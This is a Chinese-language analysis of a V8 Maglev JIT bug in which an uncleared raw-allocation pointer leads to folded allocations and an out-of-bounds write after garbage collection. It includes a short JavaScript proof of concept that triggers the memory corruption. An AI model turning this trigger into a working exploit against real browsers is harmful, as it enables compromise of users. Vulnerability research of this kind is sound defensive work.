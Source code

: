     -   如果当前函数类型为`FunctionKind::kDefaultBaseConstructor`，则进行下一步处理。
    -   尝试获取`new_target`参数的常量值，并检查其是否为 JS 函数以及是否具有有效的初始映射。
    -   如果满足条件，调用`BuildAllocateFastObject`函数，以`FastObject`和`AllocationType::kYoung`参数构建一个新的分配对象节点 (`ValueNode*`)。
    -   如果条件不满足，通过调用`BuildCallBuiltin[Builtin::kFastNewObject](Builtin::kFastNewObject)`函数创建一个新对象，并更新延迟失效信息（deoptimization info）。
5.  **继续向上遍历类树：**
    
    -   通过获取当前函数的映射，再获取其原型，继续向上遍历类树。

## 漏洞解释

正如代码中所示，`TryBuildFindNonDefaultConstructorOrConstruct()` 在调用 `BuildAllocateFastObject()` 后未清除 `current_raw_allocation_` 变量。

因此，如果在 `FindNonDefaultConstructorOrConstruct` 之后进行的下一个分配与此分配折叠，并且两者之间有一个垃圾收集

那么第二个分配的初始化会导致越界写入。

# POC

```bash
function main() {
  class ClassParent {}
  class ClassBug extends ClassParent {
      constructor() {
        const v24 = new new.target();
        super();
        let a = [9.9,9.9,9.9,1.1,1.1,1.1,1.1,1.1];
      }
      [1000] = 8;
  }
  for (let i = 0; i ＜ 300; i++) {
      Reflect.construct(ClassBug, [], ClassParent);
  }
}
%NeverOptimizeFunction(main);
main();
```

首先，`ClassParent`类是一个带有默认构造函数的基类，并且`ClassBug`类没有任何具有自定义构造函数的父对象

调用了创建`new.target`实例的函数，此时 Maglev 将对`ClassParent`发出`CheckValue`确保其运行时不变。`CheckValue`将`ClassParent`标记为`new.target`，使其成为常量。

`super`调用构造函数，引擎会为此对象执行分配和初始化。

所以调用 super 时`FindNonDefaultConstructorOrConstruct`会发出操作码，然后`[1000] = 8;`将`ClassBug`的当前实例的属性 1000 设置为值 8。

数组创建将再次尝试为元数据和数组元素分配内存。

但是调用`FindNonDefaultConstructorOrConstruct`的 Maglev 代码在未清除`current_raw_allocation_pointer`

数组元素和元数据的分配将与 `this` 对象的分配共同被折叠，GC 被触发

`this` 对象和数组的原始分配将被移动

导致越界写入
